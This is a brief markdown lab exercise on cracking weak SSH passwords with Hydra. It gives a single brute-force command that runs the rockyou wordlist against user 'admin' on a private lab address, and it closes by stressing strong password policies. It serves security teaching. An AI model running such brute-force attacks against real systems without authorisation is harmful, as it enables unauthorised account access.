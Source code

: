 # Demo Lab 03 – Password Cracking with Hydra

## Objective
Use Hydra to brute force weak SSH credentials.

## Steps
1. Prepare wordlist (e.g., `rockyou.txt`)  
2. Run Hydra:  
   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.20

3. Monitor attempts and capture successful login

## Expected Outcome

- Discovery of weak password

- Emphasis on enforcing strong password policies
